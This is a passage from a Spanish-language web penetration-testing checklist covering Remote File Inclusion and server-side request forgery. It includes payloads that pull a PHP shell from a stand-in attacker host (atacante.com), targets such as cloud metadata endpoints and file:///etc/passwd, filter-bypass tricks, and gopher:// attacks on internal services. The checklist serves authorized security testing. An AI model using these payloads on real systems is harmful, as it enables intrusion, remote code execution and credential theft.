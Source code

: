 #### Remote File Inclusion (RFI)

- [ ] **Verificar si es posible (requiere `allow_url_fopen=on` y `allow_url_include=on` en PHP).**
- [ ] **Explotación:**
    - [ ] Incluir un shell remoto: `?page=http://atacante.com/shell.txt` (donde shell.txt contiene código PHP).
    - [ ] Si se añade una extensión automáticamente (ej. `.php`):
        - [ ] Usar `?` o `#` en la URL remota: `?page=http://atacante.com/shell.txt?` o `?page=http://atacante.com/shell.txt%23`.
    - [ ] **Vía FTP/SMB:** `?page=ftp://user:pass@atacante.com/shell.txt`.
- [ ] **RFI también puede usarse para SSRF (enumerar puertos internos, etc.).**

### Ataques del Lado del Servidor

#### Server-Side Request Forgery (SSRF)

- [ ] **Descubrimiento e Identificación:**
    - [ ] Buscar funcionalidades que tomen URLs como entrada (webhooks, importadores de URL, conversores PDF, proxies internos).
    - [ ] Parámetros con nombres como `url`, `uri`, `link`, `image_url`, `dest`, `feed`.
    - [ ] Probar con URLs a un servidor controlado por el atacante (Burp Collaborator, `nc` listener).
    - [ ] Revisar si la aplicación hace peticiones a recursos externos (imágenes, APIs) que puedan ser manipuladas.
- [ ] **Explotación:**
    - [ ] **Acceso a Recursos Internos:**
        - [ ] `http://localhost/`, `http://127.0.0.1/`, `http://[::1]/`.
        - [ ] `http://169.254.169.254/` (metadatos de cloud: AWS, GCP, Azure).
        - [ ] Escanear puertos internos: `http://internal-host:port`.
        - [ ] Leer archivos locales usando `file:///` wrapper (ej. `file:///etc/passwd`, `file:///C:/windows/win.ini`).
    - [ ] **Bypass de Filtros SSRF:**
        - [ ] IPs en diferentes formatos: decimal (ej. `2130706433` para `127.0.0.1`), octal, hex.
        - [ ] Usar subdominios que resuelvan a IPs internas (DNS rebinding).
        - [ ] Usar redirecciones (3xx) a URLs internas.
        - [ ] Usar `@` en la URL: `http://expected-domain@internal-host`.
        - [ ] Encodings de URL.
    - [ ] **Crear Peticiones POST (Gopher, etc.):**
        - [ ] Usar el protocolo `gopher://` para enviar datos arbitrarios a servicios internos (ej. Redis, MySQL).
- [ ] **Blind SSRF:**
    - [ ] No se ve la respuesta directa, pero la petición se realiza.
    - [ ] Detectar con interacciones OOB (DNS, HTTP a servidor del atacante).
    - [ ] Exfiltrar datos mediante errores o retardos.
    - [ ] Usar scripts HTML/JS para forzar al servidor a hacer peticiones.
- [ ] **Time-Based SSRF:** Si se puede inducir un retardo basado en la respuesta de un servicio interno.
- [ ] **AJP Proxy (Relacionado con SSRF/Configuración Incorrecta):**
    - [ ] Si el puerto `8009/tcp` (AJP) está expuesto y mal configurado (ej. Ghostcat - CVE-2020-1938).
    - [ ] Intentar leer archivos o ejecutar código.

#### Server-Side Includes (SSI) Injection
